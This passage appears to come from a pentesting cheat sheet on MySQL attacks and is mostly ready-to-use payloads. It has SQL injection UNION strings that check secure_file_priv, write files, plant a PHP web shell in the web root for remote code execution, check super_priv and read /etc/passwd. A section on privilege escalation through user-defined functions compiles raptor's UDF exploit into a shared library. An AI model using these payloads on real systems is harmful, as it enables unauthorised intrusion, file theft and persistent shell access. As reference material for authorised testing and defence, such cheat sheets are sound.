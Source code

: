 {% tab title="Write" %}
{% code overflow="wrap" %}
```bash
# Securepriv
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--

# Write file
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 

# RCE
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
{% endcode %}
{% endtab %}

{% tab title="SUPER_PRIV" %}
```bash
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```
{% endtab %}

{% tab title="READ" %}
```bash
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endtab %}
{% endtabs %}

### UDF Functions

**User Defined Functions (UDFs)** in MySQL enable extending database capabilities by allowing custom functions written in any programming language to be compiled into shared libraries and loaded into the database. These functions run natively like built-in ones, providing flexibility but also introducing a significant attack surface when exploited. From a red team perspective, UDFs present a powerful method to escalate privileges, especially **when the MySQL server runs with elevated permissions**.

```bash
# Enumerate mysql permissions
ps -aux | grep mysql
```

If the MySQL operates as `root` and the latter is compromised there is the potential of leveraging UDFs for privilege escalation based on [raptor's PoC](https://www.exploit-db.com/exploits/1518).

<details><summary>C code</summary></details>

{% code overflow="wrap" %}
```bash
# Compile the exploit code
gcc -g -c raptor_udf2.c
# Covert the compiled binary to a shared library (so)
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
{% endcode %}
